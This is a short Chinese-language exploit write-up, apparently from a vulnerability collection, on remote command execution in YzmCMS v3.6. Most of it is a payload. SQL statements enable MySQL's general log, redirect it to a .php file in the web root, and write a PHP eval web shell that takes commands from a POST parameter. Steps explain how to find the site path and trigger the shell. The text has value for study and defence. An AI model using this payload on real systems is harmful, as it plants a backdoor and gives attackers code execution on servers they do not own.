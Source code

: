 YzmCMS v3.6 远程命令执行
========================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS v3.6

三、复现过程
------------

Payload：

    show variables like '%general%';   #查看配置
    set global general_log = on;        #开启general log模式
    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
    select '<?php eval($_POST[cmd]);?>';   #写入shell

##### 1、执行sql语句，查看mysql日志配置情况

![](./resource/YzmCMSv3.6远程命令执行/media/rId25.png)

#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用load\_file()函数来测试，确认站点目录位置。或者通过phpinfo()等信息收集获取站点目录。

![](./resource/YzmCMSv3.6远程命令执行/media/rId27.png)

#### 3、分别执行下列sql语句，将脚本代码写入文件：

    set global general_log = on;         

    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); select '<?php eval($_POST[cmd]);?>';

![](./resource/YzmCMSv3.6远程命令执行/media/rId29.png)

#### 4、提交参数，执行脚本代码：

image
